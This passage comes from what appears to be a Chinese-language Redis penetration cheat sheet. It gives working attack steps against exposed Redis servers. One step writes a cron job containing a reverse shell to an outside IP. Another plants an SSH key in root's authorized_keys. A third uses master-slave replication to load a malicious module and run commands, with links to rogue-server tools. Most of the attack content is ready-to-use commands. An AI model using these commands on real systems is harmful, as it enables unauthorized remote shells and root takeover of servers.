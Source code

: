 ```
利用条件：
允许异地登录
安全模式protected-mode处于关闭状态
config set dir /var/spool/cron
set yy "\n\n\n* * * * * bash -i >& /dev/tcp/43.142.255.132/5555 0>&1\n\n\n"
config set dbfilename x
save
注意：
centos会忽略乱码去执行格式正确的任务计划 
而ubuntu并不会忽略这些乱码，所以导致命令执行失败
```

### 3、写入Linux ssh-key公钥

```
利用条件：
允许异地登录
Redis服务使用ROOT账号启动
安全模式protected-mode处于关闭状态
允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器
ssh-keygen -t rsa
cd /root/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 118.31.57.214 -x set xxx
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
cd /root/.ssh/
ssh -i id_rsa root@118.31.57.214
```

### 4、主从复制导致的命令执行

漏洞存在于 4.x、5.x 版本中，Redis 提供了主从模式，主从模式指使用一个 redis 作为主 机，其他的作为备份机，主机从机数据都是一样的，从机只负责读，主机只负责写。在 Reids 4.x 之后，通过外部拓展，可以实现在 redis 中实现一个新的 Redis 命令，构造恶意.so 文 件。在两个 Redis 实例设置主从模式的时候，Redis 的主机实例可以通过 FULLRESYNC 同步 文件到从机上。然后在从机上加载恶意 so 文件，即可执行命令

工具：

https://github.com/vulhub/redis-rogue-getshell

https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server

```
➜ python3 redis-master.py -r 192.168.1.103 -p 6379 -L 192.168.1.104 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```
